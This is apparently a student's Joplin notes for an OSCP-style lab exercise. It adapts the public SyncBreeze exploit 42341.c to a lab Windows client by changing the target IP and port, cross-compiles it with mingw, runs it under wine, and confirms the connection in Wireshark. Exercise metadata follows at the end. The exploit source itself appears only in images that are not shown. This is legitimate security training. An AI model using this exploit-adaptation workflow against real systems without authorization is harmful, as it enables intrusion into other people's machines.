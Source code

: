 15.1.4.1

# 15.1.4.1
## 15.1.4.1.1. Modify the connection information in the exploit in order to target the SyncBreeze installation on your Windows client. 

Modify 42341.c by changing the target IP and port. Here is the changed code.
![22c6b0e1022536ed4c950edea0545941.png](:/5b1dea0f07d14b08a992b3fb540c3149)


## 15.1.4.1.2. Recompile the exploit and use Wireshark to confirm that the code successfully initiates a socket connection to your dedicated Windows client.

Compile the modified 42341.c. We see that there are no errors
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

Start SyncBreeze on the Windows Client
![9f29655de94c0df04cbb6ded66bc6f2c.png](:/abc97fea6f064e17be2e24c75f02a578)

Start Wireshark -> interface tun0 -> display filter 192.168.214.10
![c7864b44ade02e562e545dd0273696ca.png](:/b2cdf0998e0042478f703b644fde0a3b)

Run the exploit
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ wine syncbreeze_exploit.exe 
000f:err:service:process_send_command receiving command result timed out

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected

[>] Request sent
```

Review Wireshark
Here is the output. 
![7889424b6514c82a786bc7ce64e6c80a.png](:/217780b7e2d3466194bc1485340a56fc)
Take a closer look at the first 3 packets. It is the 3-way handshake SYN-SYN/ACK-ACK. This confirms the exploit initiates a successful socket connection to the Windows client.
![0d706139c0a967d524121f4ab8106650.png](:/5ac83aa474b241ee8373f531e4a783d4)

id: be2846f1b3d14a14a6151138ffaaea2d
parent_id: ca3ef334f1ff44e6ba7a1e8812787487
created_time: 2020-10-02T21:58:47.302Z
updated_time: 2020-10-02T21:58:48.678Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:58:47.302Z
user_updated_time: 2020-10-02T21:58:48.678Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1